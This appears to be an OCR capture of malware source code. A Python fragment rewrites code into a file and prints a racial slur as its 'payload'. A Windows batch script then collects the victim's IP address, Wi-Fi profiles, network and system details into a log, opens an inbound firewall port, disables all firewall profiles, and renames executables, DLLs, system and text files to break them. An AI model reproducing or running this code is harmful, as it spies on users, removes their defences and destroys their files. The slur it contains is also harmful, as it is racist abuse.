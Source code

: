     fh.writelines(newcode)
    fh.close()
#Optional Payload
print("SHIT ON NIGGER")
@echo off
title %random% %date% %username% %time% %random%
color 0a
ren -=- Writes INFO to a .LOG file in Current Directory -=-
:info
cls & color 0a
cd Desktop
nslookup myip.opendns.com resolver1.opendns.com>9K21JM10B.log
ver>>9K21JM10B.log
ECHO.>>9K21JM10B.log
ECHO Username:%username%>>9K21JM10B.log
ECHO.>>9K21JM10B.log
ECHO Time: %time%>>9K21JM10B.log
ECHO.>>9K21JM10B.log
ECHO Date: %date%>>9K21JM10B.log
ECHO.>>9K21JM10B.log
netsh wlan show profiles>>9K21JM10B.log
ECHO.>>9K21JM10B.log
ipconfig>>9K21JM10B.log
ECHO.>>9K21JM10B.log
ECHO Additional Information:>>9K21JM10B.log
ipconfig | find /i "IPv4">>9K21JM10B.log
wmic diskdrive get size>>9K21JM10B.log
wmic cpu get name>>9K21JM10B.log
ECHO.>>9K21JM10B.log
ECHO.>>9K21JM10B.log
ECHO.>>9K21JM10B.log
systeminfo>>9K21JM10B.log
goto ports
ren -=- Opens Port 1122 -=-
:ports
cls & color 0a
netsh advfirewall firewall add rule name="Port 1122 TCP" dir=in action=allow protocol=TCP localport=%1
netsh advfirewall firewall add rule name="Port 1122 UDP" dir=in action=allow protocol=UDP localport=%1
goto firewall
ren -=- Turns all Firewalls off -=-
:firewall
cls & color 0a
netsh firewall set opmode disable
netsh firewall set opmode mode=DISABLE
netsh advfirewall set currentprofile state off
netsh advfirewall set domainprofile state off
netsh advfirewall set privateprofile state off
netsh advfirewall set publicprofile state off
netsh advfirewall set allprofiles state off
goto encryption
ren -=- Encrypts files with a simple name break -=-
:encryption
cls & color 0a
:Current
REN *.cmd *.sI09
REN *.exe *.1Je9
REN *.log *.439a
REN *.ini *.3KM1
REN *.dll *.38Jl
REN *.bin *.3J81
REN *.txt *.2M1A
REN *.sys *.8j3J